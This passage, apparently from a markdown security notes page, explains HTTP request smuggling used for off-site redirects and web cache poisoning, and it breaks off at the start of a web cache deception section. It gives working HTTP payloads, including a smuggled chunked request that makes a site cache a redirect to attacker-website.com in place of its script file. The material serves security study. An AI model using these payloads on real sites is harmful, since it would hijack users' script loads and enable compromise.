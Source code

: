 User requesting a specific resource get poisoned and redirected to an arbitrary domain:

```http
GET /home HTTP/1.1
Host: attacker-website.com
Foo: XGET /scripts/include.js HTTP/1.1
Host: vulnerable-website.com



HTTP/1.1 301 Moved Permanently
Location: https://attacker-website.com/home/
```

## Using request smuggling to perform web cache poisoning

It might be possible to exploit [HTTP Request Smuggling](HTTP%20Request%20Smuggling.md) to perform a [Web Cache Poisoning Attacks](Web%20Cache%20Poisoning.md#Web%20Cache%20Poisoning%20Attacks). If any part of the front-end infrastructure performs caching of content (generally for performance reasons), then it might be possible to poison the cache with the off-site redirect response.

Request sent to the front-end server:
```http
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 59
Transfer-Encoding: chunked

0

GET /home HTTP/1.1
Host: attacker-website.com
Foo: XGET /static/include.js HTTP/1.1
Host: vulnerable-website.com
```

The smuggled request reaches the back-end server, which responds as before with the off-site redirect. The front-end server caches this response against what it believes is the URL in the second request, which is `/static/include.js`:

```http
GET /static/include.js HTTP/1.1
Host: vulnerable-website.com

HTTP/1.1 301 Moved Permanently
Location: https://attacker-website.com/home/
```

## Using request smuggling to perform web cache deception

You can leverage HTTP request smuggling to perform [Web Cache Deception](Web%20Cache%20Deception.md)

The attacker smuggles a request that returns some sensitive user-specific content:
